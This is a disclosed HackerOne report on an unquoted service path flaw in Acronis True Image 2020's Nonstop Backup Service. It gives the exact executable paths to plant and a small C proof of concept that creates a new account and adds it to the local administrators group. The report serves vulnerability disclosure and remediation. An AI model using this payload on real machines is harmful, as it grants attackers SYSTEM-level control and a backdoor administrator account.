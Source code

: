 # Acronis True Image 2020 Build 22510 Nonstop Backup Service Unquoted service path (privilege escalation)

## Report Details
- **Report ID**: 1083532
- **URL**: https://hackerone.com/reports/1083532
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-21T20:01:36.524Z
- **Disclosed**: 2024-08-27T13:49:17.257Z

## Reporter
- **Username**: sanderz31
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
Acronis True Image 2020 Nonstop Backup Service is created with an executable path that contains spaces and isn't enclosed within quotes this leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges.

See screenshot below.

 {F1166932} {F1166937}

## POC

The vunability can be easily exploited by placing a custom executable C:\Program Files (x86)\Common.exe or C:\Program.exe and restarting the computer/service. The executable will be executed with system privileges.

An example code for such application can be creating a new user with Administrator privilegles.

```C
#include <stdlib.h>
// i686-w64-mingw32-gcc adduser.c -o adduser.exe
int main ()
{
int i;
i = system ("net user username P@ssword! /add");
i = system ("net localgroup administrators username /add");
return 0;
}
```

## Recommendations
Add quotes to the path "C:\Program Files (x86)\Common Files\Acronis\CDP\afcdpsrv.exe" instead of C:\Program Files (x86)\Common Files\Acronis\CDP\afcdpsrv.exe

## Impact

privilege escalation on the affected system.

## Attachments
- acronis_service.png
- acronis_exe_fileinfo.png
